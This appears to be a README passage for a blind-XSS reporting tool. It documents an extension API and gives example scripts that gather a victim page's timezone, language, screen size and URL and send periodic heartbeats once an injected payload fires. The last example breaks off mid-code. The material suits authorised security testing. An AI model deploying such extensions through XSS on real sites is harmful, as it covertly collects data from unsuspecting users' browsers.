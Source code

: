 ### API Functions

#### `window.addCustomData(dataObject)`
Adds custom data to the initial XSS payload fire report.

```javascript
{
  title: String,  // REQUIRED: Display name for this data
  data: Object    // REQUIRED: Any JSON-serializable data
}
```

#### `window.sendBackgroundData(dataObject)`
Sends additional data after the initial payload has fired (requires `window.xssPayloadId`).

```javascript
{
  title: String,  // REQUIRED: Display name for this data
  data: Object    // REQUIRED: Any JSON-serializable data
}
```

### Using Extensions

1. **Create Extension**: Write JavaScript code using the API functions
2. **Add to Payload Console**: Navigate to Extensions/Payload Console in admin panel
3. **Enable/Disable**: Toggle extensions on/off as needed
4. **Automatic Loading**: Enabled extensions are included in your probe automatically
5. **View Results**: Check "Custom Scripts Data" in the XSS report

### Example Extensions

#### Basic Data Collection
```javascript
// Collect user information with initial payload
window.addCustomData({
  title: "User Information",
  data: {
    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    language: navigator.language,
    screenSize: screen.width + 'x' + screen.height,
    timestamp: new Date().toISOString()
  }
});
```

#### Background Monitoring
```javascript
// Send updates after payload fires
setTimeout(function waitForPayload() {
  if (!window.xssPayloadId) {
    setTimeout(waitForPayload, 1000);
    return;
  }

  // Send heartbeat every 5 seconds
  setInterval(function() {
    window.sendBackgroundData({
      title: "Heartbeat",
      data: {
        status: "Page active",
        url: location.href,
        time: new Date().toISOString()
      }
    });
```